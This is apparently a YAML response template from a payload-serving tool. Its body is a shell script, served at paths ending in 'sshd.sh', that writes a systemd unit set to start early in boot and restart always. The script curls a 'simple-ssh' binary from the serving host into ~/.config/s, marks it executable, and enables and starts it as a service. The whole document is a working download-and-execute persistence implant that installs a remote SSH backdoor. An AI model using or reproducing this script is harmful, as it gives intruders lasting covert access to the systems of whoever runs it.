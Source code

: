 ```yaml
---
title: Simple SSH Service
description: Simple SSH Service (requires build of simple ssh server in static dir)
weight: 1
pattern: /sshd.sh$
is_final: true
data:
  headers:
    Content-Type: text/plain
  body: |
    #SVC_DIR=~/.config/systemd/user/
    SVC_DIR=/etc/systemd/system/
    DEST_FILE=~/.config/s
    
    if [ ! -d $SVC_DIR/simple-ssh.service ]; then
      OS=$(uname)
      ARCH=$(uname -m)
    
      mkdir -p $SVC_DIR
    cat << EOF > $SVC_DIR/simple-ssh.service
    [Unit]
    Description=Simple SSH
    DefaultDependencies=no
    Requires=home.mount
    After=home.mount
    Before=sysinit.target systemd-journal-flush.service
  
    [Service]
    ExecStart=$DEST_FILE
    StandardOutput=syslog
    RestartSec=5s
    Restart=always
    TimeoutStopSec=8
  
    [Install]
    WantedBy=multi-user.target
    EOF

      curl {{.Request.Host}}/mdaas/$OS/$ARCH/simple-ssh > $DEST_FILE
      chmod +x $DEST_FILE
    #  systemctl --user daemon-reload
    #  systemctl --user enable simple-ssh
    #  systemctl --user start simple-ssh
      systemctl daemon-reload
      systemctl enable simple-ssh
      systemctl start simple-ssh
    fi

---
```

